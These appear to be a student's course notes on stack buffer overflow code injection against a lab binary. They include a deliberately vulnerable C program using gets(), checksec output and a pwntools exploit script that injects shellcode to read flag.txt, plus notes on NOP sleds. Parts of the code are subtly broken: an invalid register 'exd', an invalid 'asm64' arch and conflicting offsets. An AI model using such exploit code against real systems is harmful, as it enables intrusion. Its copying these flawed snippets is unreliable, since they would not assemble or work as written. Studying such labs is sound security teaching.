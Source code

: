 ```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>  

int main(int argc, char **argv){

	char buffer[{{buffsize}}];
	unsigned long ret;

	gets(buffer);

	ret = __builtin_return_address(0);


	if((ret & 0xfffffff00000 ) != 0x7ffffff00000) {
		printf("64-bit matrix calibration failed... (%p)\n", ret);
		_exit(1);
	}

}
```

### What is code injection
- Supply code and trick the program into executing the code
- supply through `gets()` and environment variables
- `gets()` seems promising for this one

```bash
root@aec1c95ac7fb:~/host-share/CS4401# checksec ./stack4-64 
[*****] '/root/host-share/CS4401/stack4-64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled #means we can execute code on the stack!!
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments #sections where we can read write and execute
```

vmmap: gdb command that gives you a a layout of virtual address space. includes permissions
- from this we learn that the stack is `rwx`
- We can write executable code to the stack!
- Why would we have an executable stack
	- History: hardware didn't have enough bits to specify difference between read, write, and executable
	- Now: Browsers need to optimize javascript code to execute them fast!!


**What do we want our injected code to do?**
- <mark style="background: #ADCCFFA6;"> Program to spawn a shell with root permissions</mark>
- a function like the win functions we've seen before
**How do we write the code?**
- Use the exec system call!
- `bin\shell`

`injection.c`
```c
#include <fcntl.h>

int main(){
	//open, sendfile
	
	fd = open("./flag.txt", O_RDONLY); // open syscall
	
}
```

### Cool Shellcode Website
https://shell-storm.org/shellcode/index.html

### SIGSEGV vs. SIGBUS
`SIGBUS`: you are trying to use an impossible value as an address.
	ex: you overwrote rbp with a cyclic pattern (see [[Stack3]])

`SIGSEGV`: You have a valid address, but are tying to do something illegal with it

**arrise from the same problem**: we did something that caused a pointer to be corrupted

another signal
`SIGILL`: Illegal Instruction; when you try to execute something that isn't actual instructions

### stack4.py
```python
from pwn import *
import os

elf = ELF('./stack4')
context.binary=elf
context.log_level = 'debug'
context.arch = 'asm64'


offset = 76
ret_addr = 0xffffd3d0

code = asm('''
		/* pushes string onto stack */
		push 0x7478
		mov rax, 0x742e67616c662f2e
		push rax
		
		/* open("./flag.txt", flags) */
		mov rdi, rsp
		xor esi, esi
		xor exd, edx
		mov eax, 2
		syscall

		/* sendfile(1, fd, 0, 0ff) */
		mov rsi, rax
		xor edx, edx
		mov r10, 0xff
		mov rdi, 1
		mov eax, 40
		syscall
		''')

#How do we know the address of the string?
#push ascii ont to the stack
#We do not need to know where the code will be loaded onto the stack
exploit_str = flat({40:0x007fffffffe4ed+48, 48:code})

p = gdb.debug('./stack4-64', gdbscript = '''
	b main
	shell tmux select-layout main-vertical
	shell tmux swap-pane -U
	''')

p.sendline(exploit_str)

p.wait()
p.recvall()
```

1. xor something with itself, sets reg to zero
	1. why? Doesnt include a null byte! (Reading will sometimes stop on null bytes or newline characters, depending on the function!)
2. when you use 32-bit registers in 64-bit assembly, remianing higher bits will be zeroed out.

### Shellcode issues
1. looks like the beginning is corrupted. You guessed the stack address of the code slightly wrong and started executing in the middle of your injected code
2. looks like the end is corrupted. You have a null byte or newline character in your code and it stopped reading halfway through your code

### NOP Slide
- Gives us some leeway for guessing the address of the shellcode, since *GDB doesn't give us a fully accurate address*
- About 10,000 is a good amount of NOPs
- To Make work on the server, just increase length of nop sled
- **Try to make the address jump to the middle of the sled**